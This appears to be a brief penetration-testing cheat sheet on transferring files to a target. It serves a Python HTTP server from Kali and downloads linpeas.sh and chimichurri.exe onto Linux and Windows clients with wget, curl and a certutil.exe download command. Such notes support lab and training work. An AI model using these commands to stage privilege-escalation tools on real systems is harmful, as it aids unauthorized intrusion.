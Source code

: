 # Usage

## Host a simple HTTP server on Kali  
in /root/  
mkdir transfer  
python3 -m http.server 80  

Copy a file into this /root/transfer/ directory: linpeas.sh

## Linux client to get files from HTTP server
wget http://\<Kali IP address>/\<filename>
  * example: wget http://1.2.3.4/linpeas.sh

## Windows client to get files from HTTP server
curl http://\<Kali IP address>/\<filename>
  * example: curl http://1.2.3.4/linpeas.sh

certutil.exe -urlcache -split -f "http://1.2.3.4/chimichurri.exe" chimi.exe
